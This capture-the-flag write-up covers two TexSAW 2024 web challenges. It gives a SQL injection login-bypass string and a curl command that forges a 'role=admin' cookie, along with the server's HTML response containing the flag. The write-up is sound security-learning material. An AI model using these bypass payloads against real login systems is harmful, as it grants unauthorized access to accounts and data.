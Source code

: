 ### TexSAW 2024

### Challenges
- Web
  - Login Attempt
  - Crazy Cookie
  - Extreme Security
  - Over 9000
  - Ask, and it shall be given to you

### Challenge 1: Login Attempt

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b56385c4-6a19-48c3-9141-f62b089907d0)

- The challenge is a basic sql injection challenge which requires bypassing a login page.I bypassed the login page with a true sql statement `' or 1=1--+`.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/881b97ae-b2a5-44c1-8cf8-3a073fa2fba9)

- Flag

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/582ef905-850d-421f-afa6-30e09a32c793)

### Challenge 2: Crazy Cookie

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/61d8f77f-ea45-4d9f-8bad-e5aae4d212d2)

- The challenge's objective is to bypass this login page.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35f367af-e620-4897-8fb7-f0d3a025986a)

- After analyzing the response of the response with curl, I noticed that the cookie contains a key 'role' with the value 'user'.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3970f7f8-e7d5-4462-a10e-7e7e81bc9892)

- I got the flag by setting the `role` value to admin

          ❯ curl http://3.23.56.243:9002/ -H 'Cookie: role=admin; Path=/'
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Flag</title>
            <style>
                body {
                    font-family: Arial, sans-serif;
                    text-align: center;
                    margin: 0;
                    padding: 0;
                    background-color: #f3f3f3;
                }
                .container {
                    max-width: 600px;
                    margin: 50px auto;
                    background-color: #fff;
                    border-radius: 10px;
                    box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                    padding: 20px;
                }
                h1 {
                    color: #4CAF50;
                    margin-top: 0;
                }
                .flag {
                    font-size: 24px;
                    color: #FF5722; /* Orange color */
                    margin-top: 20px;
                    padding: 10px;
                    border: 2px solid #FF5722; /* Orange border */
                    border-radius: 5px;
                }
            </style>
        </head>
        <body>
            <div class="container">
                <h1>Flag!</h1>
                <div class="flag">
                    texsaw{cR@zy_c00Ki3}
                </div>
            </div>
        </body>
        </html>           
        



